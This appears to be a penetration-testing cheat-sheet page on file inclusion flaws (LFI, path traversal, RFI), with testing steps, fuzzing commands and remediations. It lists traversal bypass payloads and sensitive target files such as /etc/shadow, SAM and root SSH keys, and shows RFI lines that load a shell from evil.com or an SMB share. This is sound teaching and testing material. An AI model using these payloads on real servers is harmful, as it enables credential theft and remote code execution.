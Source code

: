 # File Inclusion

**File Inclusion** vulnerabilities allow an attacker to **include files on a server through a web application's input**. \
This happens when the application uses user input to construct paths to files and then includes those files in the execution process, without proper validation or sanitization.



There are two main types:

* Local File Inclusion (LFI)
* Directory/Path Traversal
* Remote File Inclusion (RFI)

## Local File Inclusion (LFI) - Path Traversal

The **Local File Include** vulnerability is a web vulnerbility that allows a hacker to read/view sensitive information **already present on the server** such as **configuration files**, **logs**, or even **executable code**.

In practice, the follow URL may be affected by LFI vulnerability:

```
https://company.com/download?ticket=3123345123-345345123.json
```

We see that we can change the variable indicating the file to be displayed. Try to change it with a local file with possible sensitive information:

```
https://company.com/download?ticket=../../../../../../etc/passwd
```

This URL will display the entire file content.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
[..snip..]
```

### Steps for testing for LFI

1. Find an entry point that could be via `GET`, `POST`, `COOKIE`, or HTTP header values!
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files

### Fuzzing tools

#### Ffuf

```bash
ffuf -u 'URL/image?filename=FUZZ' -w /PATH/TO/WORDLIST 
```

#### Burp Suite

Intercept the request and send it to Intruter. Now load a wordlist and start the SNIPER attack

<figure><img src="../../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>



### Bypass Payloads

{% code title="Files" %}
```
/usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
```
{% endcode %}

{% code title="Manual" overflow="wrap" %}
```bash
# bypass include php function
../../../../../../etc/passwd 

# set NULL BYTE at the end to bypass file type and bypass Blacklist filter, not working with PHP 5.3.4 and above
../../../../../../etc/passwd%00 

# bypass ./ replaces by empty string
....//....//....//....//....//etc/passwd 
?page=..///////..////..//////etc/passwd
?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# Double encoding
?page=%252e%252e%252fetc%252fpasswd
?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 Encoding
?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00

# Path Truncal
# On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.
?page=../../../[ADD MORE]../../../../etc/passwd
```
{% endcode %}

### Sensitive file to get

{% code title="Linux Web Server" %}
```bash
/etc/passwd # system's user
/etc/shadow # system's password 
/etc/hosts # may contain subdomain
/etc/issue # 
/etc/profile # controls system-wide default variables
/proc/version # specifies the version of the Linux kernel
/root/.bash_history
/var/log/apache2/access.log # may contain credentials
/var/log/auth.log # ssh logon
/var/log/secure # admin activities
/var/log/dmessage # contains global system messages
/var/mail/root
/root/.ssh/id_rsa # private ssh keys for a root or other accounts

```
{% endcode %}

{% code title="Windows Web Server" %}
```bash
C:\Windows\System32\drivers\etc\hosts # other domain and subdomain
C:\Windows\System32\config\SAM # password hashes 
C:\inetpub\logs\LogFiles\W3SVC1\*.log # IIS log
C:\Users\Administrator\Desktop\* # admin files
C:\boot.ini # contains the boot options with BIOS firmware
```
{% endcode %}



## Remote File Inclusion (RFI)

**Remote File Inclusion (RFI)** is a technique to include remote files into a vulnerable application. \
Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. \
One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

* Sensitive Information Disclosure
* Cross-site Scripting (XSS)
* Denial of Service (DoS)



The ways to achieve RCE from RFI are this:

* Log file poisoning
* Email inclusion
* Via /proc/\*/fd/\*
* Via /proc/self/environ
* Via upload
* Via PHP sessions
* Via SSH
* Via PHP filters

For more information read the link below

{% embed url="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#lfi2rce" %}

### Filter Bypass

```bash
# NULL BYTE
http://example.com/index.php?page=http://evil.com/shell.txt%00

# DOUBLE ENCODING
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Host SMB file share

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`







## Remediations

* Keep system and services, including web app framework, updated with the latest version.
* Turn off PHP errors to avoid leaking the path of the application and other potentially revealing info
* A WeB App Firewall (WAF) is a good option to help mitigate web app attacks
* Disable some PHP features that cause file inclusion vuln if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`.
* Carefully analyze the web app and allow only protocols and PHP wrappers that are in need.
* Never trust user input, and make sure to implement proper input validation against file inclusion.
* Implement whitelisting for file names and locations as well as blacklisting.





## Resources

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion" %}

{% embed url="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" %}
